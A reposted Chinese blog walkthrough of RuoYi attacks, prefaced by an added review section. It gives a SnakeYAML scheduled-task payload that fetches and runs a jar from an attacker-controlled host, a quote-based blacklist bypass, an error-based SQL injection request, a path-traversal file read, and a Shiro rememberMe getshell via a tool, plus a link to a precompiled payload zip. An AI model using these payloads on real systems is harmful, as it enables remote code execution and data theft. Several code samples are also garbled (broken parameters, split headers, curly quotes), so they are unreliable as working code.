## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;4.6.2任务RCE和SQL、4.6.2–&lt;4.7.2名单绕过、&lt;4.5.1文件读；Shiro无版本/key/gadget条件

代码与实验材料：全部命令/载荷读完，旧任务SnakeYAML与名单绕过、role/list、Windows文件读有互补；弯引号及HTML实体破坏代码

来源证据范围：lmboke原文、artsploit工具；另提供未验证预编译zip来源，不执行

- **适用与权限边界（1）**：PoC损坏且不同机制边界缺失；依据：&amp;params变成¶ms，User-Agent拆行；协议绕过使用弯引号无法证明处理行为；Shiro仅工具图无密钥前提。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：持久计划任务/外部代码加载副作用；依据：cron每10秒、下载jar执行，未写删除和恢复；建议执行一次有帮助但不自动清除任务。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **实验改动边界（3）**：示例文件名、命令和配置不一致；依据：YAML引用example.jar但打包yaml-payload.jar，javac/jar后//注释在shell不是注释，Quartz cron不等于Linux语法。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 若依系统前后台漏洞大全

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LZxZZ3ZLQg2Wz3xX4iCE8w)

免责声明

  

  

**本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**只供对已授权的目标使用测试，对未授权目标的测试作者不承担责任，均由使用本人自行承担。**


若依系统前后台漏洞大全

### **0. 若依项目搭建**

**0.1 修改 / 获取项目启动端口**

4fa9f853139bece3a38e80911c209688

**0.2 创建数据库**

启动 mysql 服务, 并创建数据库 ry

bae68a7f848b80dd719a20a8f3a92ae0

之后在将这两个 SQL 文件导入到 ry 数据库中

d227fc1f04c62126b2b46f1dd4cfcfcd

**0.3 修改连接数据库的用户名和密码**

接着修改连接数据库的用户名和密码

4fa9f853139bece3a38e80911c209688-1677163359983

然后用 idea 启动即可

f1f0e358cc0bfed1f5e33b28d73d246e

### **1. 后台 - 定时任务 - RCE**

**1.1 漏洞简介 RuoYi<4.6.2**

漏洞影响范围 RuoYi<4.6.2  
简要描述：由于若依后台计划任务处，对于传入的 "调用目标字符串" 没有任何校验，导致攻击者可以调用任意类、方法及参数触发反射执行命令。

**1.2 漏洞利用步骤**

这个跟 springboot 的 Actuator 配置不当引起的 rce 很类似  
也是让其远程加载一个 yml 文件.

接下来具体操作一下…

下载 payload

```
https://github.com/artsploit/yaml-payload


```

4e418ff8db526d9e82fea80d9ec85b30

(mspaint 为打开画图板)  
我们切换目录

5773d932fa593e0c3c3f9fce55940759

编写 yaml-payload.yml 文件 (没有的话, 自己创建即可)

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]


```

dabb2009dc56a196e16cad5dca916184

然后在该目录下打开 powershell 或 命令提示框

d5ad93bd6762464050d3c60430121d88

然后输入命令

```
    javac src/artsploit/AwesomeScriptEngineFactory.java    //编译java文件

    jar -cvf yaml-payload.jar -C src/ .             //打包成jar包


```

然后就会生成一个 yaml-payload.jar 的 jar 包

注意第二个命令 yam-payload.jar 的 jar 包要与 yaml-payload.yml 访问的 jar 包名称一一对应  
至此, 我们的 payload 已经修改完成了

这里有, java1.8 编写好的 paylaod

```
https://lmpan.lmboke.com/yaml-payload-master%282%29.zip


```

okk, 这里咱们直接用 python 开启一个简单的 http 服务

1

我们进入若依 的后台页面之后添加一个定时任务

2

然后添加 payload

3

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://攻击机ip/yaml-payload.jar"]]]]')


```

不止这一种方法, 我们现在用的是 snakeyaml 方式, 这个我比较熟  
另外两种方式, 好像有

4

然后添加 cron 表达式:

5

```
0/10 * * * * ?


```

这个 cron 就跟 linux 定时任务一样, 定义每天 / 每周 / 等, 定时启动的时间

配置好之后, 并不会启动定时任务

67

(尽量使用 "执行一次" 检验)

执行之后, 即可执行命令 mspaint(弹出画图板)

8

1.3 版本 4.6.2<=Ruoyi<4.7.2

这个版本采用了黑名单限制调用字符串

*   • 定时任务屏蔽 ldap 远程调用
    
*   • 定时任务屏蔽 http(s) 远程调用
    
*   • 定时任务屏蔽 rmi 远程调用
    

 9

Bypass  
咱们只需要在屏蔽的协议加上单引号, 接着采用之前的方式  
例如:

```
org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“h’t’t’p’://127.0.0.1:88/yaml-payload.jar”]]]]’)


```

加引号

11

### **2. 后台 - SQL 注入 Ruoyi<4.6.2**

我们访问下图所示的菜单

12

然后刷新, 拦截, 改包

13

```
POST /system/role/list HTTP/1.1
Host: 127.0.0.1
User-Age
nt: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 181
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/system/role
Cookie: UMK8_2132_ulastactivity=fdf6lh5P4KaIR7rPwncVmGmx5z2ymLLNz3o33msgkFJlQ1SdH%2FhR; UMK8_2132_lastcheckfeed=1%7C1637287051; UMK8_2132_nofavfid=1; JSESSIONID=d9eca4a4-7fcd-41ba-9888-75e7c73dc9bf
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

pageSize=&pageNum=&orderByColumn=&isAsc=&roleName=&roleKey=&status=¶ms[beginTime]=¶ms[endTime]=¶ms[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))


```

14

(即可触发报错注入, 获取数据库名称)

### **3. 后台 - 任意文件读取 Ruoyi<4.5.1**

15

```
GET /common/download/resource?resource=/profile/../../../../../../../.txt HTTP/1.1

```

(我在 D 盘的根目录创建一个. txt 文件, 其内容为 "这是 D 盘")

### **4. 前台 - shiro-RCE**

shiro 是若依的其中一个组件, 咱们使用 shiro 的经典 rememberMe 漏洞来 getshell

下面使用工具

16

(这个工具挺好用, 还能冰蝎 / 蚁剑之类的吗, 从而 getshell)

**回复 “****20230307****" 获取下载地址**

本文转自 https://www.lmboke.com/archives/ruo-yi-xi-tong-qian-hou-tai-lou-dong-da-quan.html，如有侵权，请联系删除。


技术交流

  

  

知识星球

  

  

**致力于红蓝对抗，实战攻防，星球不定时更新内外网攻防渗透技巧，以及最新学习研究成果等。常态化更新最新安全动态。专题更新奇技淫巧小 Tips 及实战案例。  
**

**涉及方向包括 Web 渗透、免杀绕过、内网攻防、代码审计、应急响应、云安全。星球中已发布 200+ 安全资源，针对网络安全成员的普遍水平，并为星友提供了教程、工具、POC&EXP 以及各种学习笔记等等。**


交流群

  

  

关注公众号回复 “**加群**”，添加 Z2OBot 小 K 自动拉你加入 **Z2O 安全攻防交流群**分享更多好东西。




  

  

关注我们

  

  

**关注福利：**  

**回复 “****app****" 获取  app 渗透和 app 抓包教程**

**回复 “****渗透字典** **" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。**

**回复 “****书籍** **" 获取 网络安全相关经典书籍电子版 pdf**

****回复 “资料** **" 获取 网络安全、渗透测试相关资料文档****

往期文章

  

  

[**我是如何摸鱼到红队的**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247489526&idx=1&sn=f52e17f5eb4790395a88a8e64c2a15e4&chksm=cea8fcb6f9df75a03fcf710a7369d8e761a1f8e5ae882709292c49103f22eefeb3a534388cd3&scene=21#wechat_redirect)  

[**命令执行漏洞 [无] 回显 [不] 出网利用技巧**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247488092&idx=1&sn=07ad5a0c09715ca03362bdcacc17f1e1&chksm=cea8f91cf9df700a68c747e2d7185efad50f380f93257293b9b96b5d87dc52cb2082560b0f0f&scene=21#wechat_redirect)  

[**MSSQL 提权全总结**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247488864&idx=1&sn=4888dcec05c0c5c8bc9d3b34136930c0&chksm=cea8fe20f9df7736e03b8544955533ac32671b845ff61d24dc51b5d787960d28256a833350d0&scene=21#wechat_redirect)  

[**Powershell 免杀过 defender 火绒，附自动化工具**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247484469&idx=1&sn=bdac380ee95fd0ef72581a3b60da1443&chksm=cea8ef75f9df66630e2148be842428802b27bcee1cb09748cbc200046742b8052cb6f873e115&scene=21#wechat_redirect)  

[**一篇文章带你学会容器逃逸**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247486670&idx=1&sn=6822dd40dcc20121fce0c42188fcd49a&chksm=cea8e78ef9df6e987896bdbd6b7a96c48992782657680574d7015d72984e7ca67a25a0aeea5d&scene=21#wechat_redirect)  

[**域渗透 | kerberos 认证及过程中产生的攻击**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247483720&idx=1&sn=157c5a4c172315af343bd253bc66da7c&chksm=cea8ea08f9df631e96faca7437a2b1e1900973dfd3b8d3501a666afcd8b05d6d16b8642aabc7&scene=21#wechat_redirect)  

[**通过 DCERPC 和 ntlmssp 获取 Windows 远程主机信息**](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247488097&idx=1&sn=cf1e6965c78c9b4636ba15d2bd752655&chksm=cea8f921f9df7037e1e54ae11e03e18562da87309414c0fac3d8bc581bebe69d96cc5fdfce1d&scene=21#wechat_redirect)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
